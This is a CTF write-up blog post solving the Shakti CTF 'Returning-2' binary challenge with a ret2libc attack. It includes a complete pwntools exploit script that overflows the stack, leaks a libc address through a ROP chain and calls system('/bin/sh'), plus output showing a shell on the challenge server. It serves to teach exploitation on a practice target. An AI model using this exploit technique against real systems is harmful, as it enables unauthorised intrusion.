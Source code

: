 ```yaml
--- 
layout: post 
title: "[Shakti CTF] Returning-2" 
date: "2021-04-05" 
categories: PWN 
author: eurus 
---
```


In this challenge we have an elf that doesn't have PIE and no canary. The file is protected with partial RELRO and with the NX flag on the stack. 

```bash
┌──(pwn)(eurus㉿warfare)-[~/…/shakti_ctf/Returning-2]                   
└─$ python3 solver.py 
[*] '/shakti_ctf/Returning-2/chall'                                                     
     Arch:     amd64-64-little                              
     RELRO:    Partial RELRO                                
     Stack:    No canary found                              
     NX:       NX enabled
     PIE:      No PIE (0x400000)
```

The following is the result of decompiling the binary program. Can be seen in this pseudocode that the binary program take as input a value used for allocate memory with the ```alloca``` function. Then read 0x78 bytes from ```stdin```. 

```c
int main(int argc, const char **argv, const char **envp)
{
  void *ptr_malloc; // rsp
  int input_len;    // [rsp+4h] [rbp-Ch] BYREF
  void *buf;        // [rsp+8h] [rbp-8h] BYREF

  initialize(argc, argv, envp);
  printf("Enter length of input:");
  __isoc99_scanf("%d", &input_len);
  puts("Enter text:");
  ptr_malloc = alloca(16 * ((input_len + 30LL) / 0x10uLL));
  buf = (void *)(16 * (((unsigned __int64)&buf + 7) >> 4));
  read(0, buf, 0x78uLL);
  puts("Goodbye!");
  return 0;
}
```

Using gdb with 16 as lenght of input I have found with the use of cyclic that at offset 48 we have the saved ebp and after is present he return address saved in the stack. The name of the challenge suggest to me that I have to make a ret2libc. 

At this point with a payload like this:

```python
payload = b'A'*48+p64(ebp)+p64(NEW_RET_ADDRESS)
```

I can redirect the flow of the executable. In order to make a ret2libc attack I need to know where the libc is mapped in the process space, what version of glibc is used and finally I need to have the possibility to redirect the flow of the binary program (payload above). 

So now we need to leak the libc base address in order to rop to the function  ```system('/bin/sh')```. The library pwntools make this really easy.


```python
rop = ROP(elf)
rop.call('puts', [elf.got['puts']])
rop.call(0x4007A8) #main address
payload = b'A'*48+p64(ebp)+rop.chain()

p.sendline(payload)

log.info(str(p.recvuntil('\n')))
addr = u64(p.recvuntil('\n').strip().ljust(8,b'\x00'))
log.info(str(hex(addr)))
```

This script create a rop chain that call the puts and make him print his position inside the process space, finally recall the main function.
After receive the value we make some magic trick for unpack the address leaked and print it. 

With this address, taking the last 12bit (I know, I am treating it as if PIE and ASLR are active), we can search in the glibc database search. Inserting the function name and the last 12bit the website lists for us the version of the possible version of libc. For the server I have found ```libc6_2.27-3ubuntu1.4_amd64.so``` as a possible library used.

```python
libc = ELF('./libc6_2.27-3ubuntu1.4_amd64.so')
libc.address = addr - libc.symbols['puts']
```

Importing the library in the script we can calculate tha base address af the libc inside the address space of the binary program. Now we need to craft another rop chain to call the ```system('/bin/sh')```

```python
rop = ROP(libc)
log.info(str(hex(libc.address)))
rop.call('puts', [next(libc.search(b'/bin/sh\x00'))])
rop.call('system', [next(libc.search(b'/bin/sh\x00'))])
```

In this case i have not really understand why i need to call puts before the system for avoid the server to crash in a segmentation fault. Maybe for reallign the stack, but the server crash also using a ret gadget in order to realign the stack (so i dunno at the moment). 

So at the end this is the script that i wrote:


```python
from pwn import *

context.binary = elf = ELF('./chall')

#p = elf.process()
#gdb.attach(p, gdbscript = 'b *0x40082e')
p = remote('34.121.211.139', 3333)

p.recvuntil('Enter length of input:')
p.sendline('16')

p.recvuntil('Enter text:\n')

ebp = 0x0

rop = ROP(elf)
rop.call('puts', [elf.got['puts']])
rop.call(0x4007A8)

payload = b'A'*48+p64(ebp)+rop.chain()

p.sendline(payload)

log.info(str(p.recvuntil('\n')))
addr = u64(p.recvuntil('\n').strip().ljust(8,b'\x00'))
log.info(str(hex(addr)))

libc = ELF('./libc6_2.27-3ubuntu1.4_amd64.so')

libc.address = addr - libc.symbols['puts']

rop = ROP(libc)
log.info(str(hex(libc.address)))
rop.call('puts', [next(libc.search(b'/bin/sh\x00'))])
rop.call('system', [next(libc.search(b'/bin/sh\x00'))])

p.recvuntil('Enter length of input:')

p.sendline('16')

p.recvuntil('Enter text:\n')

payload = b'A'*48+p64(ebp)+rop.chain()
p.sendline(payload)

p.interactive()
```

and this is its execution!

```text
┌──(pwn)(eurus㉿warfare)-[~/…/ShaktiCTF_TODO/my_writeup/shakti_ctf/Returning-2]
└─$ python3 solver.py 
[*] '/home/eurus/Documents/ShaktiCTF_TODO/my_writeup/shakti_ctf/Returning-2/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 34.121.211.139 on port 3333: Done
[*] Loading gadgets for '/home/eurus/Documents/ShaktiCTF_TODO/my_writeup/shakti_ctf/Returning-2/chall'
[*] b'Goodbye!\n'
[*] 0x7f3218872aa0
[*] '/home/eurus/Documents/ShaktiCTF_TODO/my_writeup/shakti_ctf/Returning-2/libc6_2.27-3ubuntu1.4_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading gadgets for '/home/eurus/Documents/ShaktiCTF_TODO/my_writeup/shakti_ctf/Returning-2/libc6_2.27-3ubuntu1.4_amd64.so'
[*] 0x7f32187f2000
[*] Switching to interactive mode
Goodbye!
/bin/sh
$ ls
chall
flag.txt
libc-2.27.so
run.sh
$ cat flag.txt
shaktictf{all0c4_the_m1ghty!}
```
